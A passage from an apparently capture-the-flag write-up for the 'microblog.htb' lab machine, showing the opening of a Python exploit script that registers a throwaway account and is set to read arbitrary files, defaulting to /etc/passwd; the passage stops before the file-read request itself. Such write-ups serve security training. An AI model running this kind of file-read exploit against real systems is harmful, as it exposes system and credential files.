 ![](/img/image-20230515143242706.png)

#### File Read Script

Given the multiple steps to read a file, I'll script this. Also, because
the box is periodically clearing out accounts, I'll just register a new
account each time:



    #!/usr/bin/env python3

    import random
    import re
    import requests
    import string
    import sys

    import warnings
    warnings.filterwarnings("ignore", category=DeprecationWarning)


    file = sys.argv[1] if len(sys.argv) > 1 else "/etc/passwd"

    token = ''.join(random.choice(string.ascii_lowercase) for _ in range(20))
    base_url = "http://app.microblog.htb"

    sess = requests.session()
    sess.proxies.update({"http": "http://127.0.0.1:8080"})

    # register for site
    body = {"first-name": token, "last-name": token, "username": token, "password": token}
    resp = sess.post("http://app.microblog.htb/register/", data=body)
